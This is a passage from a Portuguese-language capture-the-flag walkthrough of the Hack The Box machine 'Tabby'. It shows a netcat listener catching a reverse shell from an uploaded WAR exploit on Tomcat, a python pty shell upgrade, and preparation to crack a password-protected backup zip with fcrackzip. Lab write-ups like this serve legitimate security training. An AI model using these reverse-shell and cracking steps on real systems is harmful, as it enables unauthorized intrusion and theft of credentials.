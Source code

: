 em outra aba do terminal, deixe escutando na porta que desejar

```bash
nc -nvlp 4444
```
com o netcat

Quando estiver ouvindo a porta,  vá no navegador e chame o arquivo que vc acabou de fazer o upload

```bash
http://10.10.10.194:8080/exploit.war/
```
volte no terminal, ele vai ter conectado via shell
agora execute o shell reverso em python para o term

```bash
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.194] 50476
python3 -c "import pty;pty.spawn('/bin/bash')"
```

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
tomcat@tabby:/var/lib/tomcat9$ 
```

Agora entre em  /var/www/files

vc vai encontrar o arquivo  16162020_backup.zip

acesse no navegador

10.10.10.194/files/16162020_backup.zip

e baixe o arquivo zip para sua maquina

ele ta protegido com senha

vai ser necessário usar o  `fcrackzip` nele se não tiver ele instalado, basta, instalar:

# apt-get install fcrackzip

```bash
 root  ~  fcrackzip -h

fcrackzip version 1.0, a fast/free zip password cracker
written by Marc Lehmann <pcg@goof.com> You can find more info on
http://www.goof.com/pcg/marc/

USAGE: fcrackzip
          [-b|--brute-force]            use brute force algorithm
          [-D|--dictionary]             use a dictionary
          [-B|--benchmark]              execute a small benchmark
          [-c|--charset characterset]   use characters from charset
          [-h|--help]                   show this message
          [--version]                   show the version of this program
          [-V|--validate]               sanity-check the algorithm
          [-v|--verbose]                be more verbose
          [-p|--init-password string]   use string as initial password/file
          [-l|--length min-max]         check password with length min to max
          [-u|--use-unzip]              use unzip to weed out wrong passwords
          [-m|--method num]             use method number "num" (see below)
          [-2|--modulo r/m]             only calculcate 1/m of the password
          file...                    the zipfiles to crack

methods compiled in (* = default):

 0: cpmask
 1: zip1
*2: zip2, USE_MULT_TAB
```